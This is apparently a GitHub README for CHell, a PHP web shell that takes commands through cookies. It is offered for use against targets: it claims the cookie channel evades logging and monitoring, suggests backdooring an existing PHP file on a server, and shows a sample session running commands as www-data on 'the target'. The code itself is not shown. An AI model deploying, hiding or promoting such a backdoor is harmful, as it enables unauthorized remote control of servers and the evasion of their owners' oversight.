 ![License](https://img.shields.io/badge/license-sushiware-red)
![Issues open](https://img.shields.io/github/issues/crashbrz/CHell)
![GitHub pull requests](https://img.shields.io/github/issues-pr-raw/crashbrz/CHell)
![GitHub closed issues](https://img.shields.io/github/issues-closed-raw/crashbrz/CHell)
![GitHub last commit](https://img.shields.io/github/last-commit/crashbrz/CHell)

# CHell
The CHell is a PHP shell based on cookies to execute the commands.<br> 
It might bypass several controls, and monitoring due to the web servers usually does not include the cookies into log files.

## Notes ##
- CHell <chell.php> can be used as standalone .php file or backdooring an existence .php file into the server. 
- CHell by default uses JSESSION cookie name. If necessary, change it.
- Cookie value encryption was not added due to the necessity of encryption libs must be installed/loaded on the server-side. 

### Installation ###
Download the latest release and unpack it in the desired location.<br>
chell.php must be uploaded in the target.

### License ###
CHell is licensed under the SushiWare license. Check [docs/license.txt](docs/license.txt) for more information.

### Usage ###
```
./chell.sh http://target/chell.php
Press <CTRL+C> to exit.
CHELL>id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### PHP Version ###
```
Tested on:
CHELL>php -v
PHP 7.4.9 (cli) (built: Aug 27 2020 13:37:23) ( NTS )
Copyright (c) The PHP Group
Zend Engine v3.4.0, Copyright (c) Zend Technologies
with Zend OPcache v7.4.9, Copyright (c), by Zend Technologies
```
### To Do ###
Windows client support 
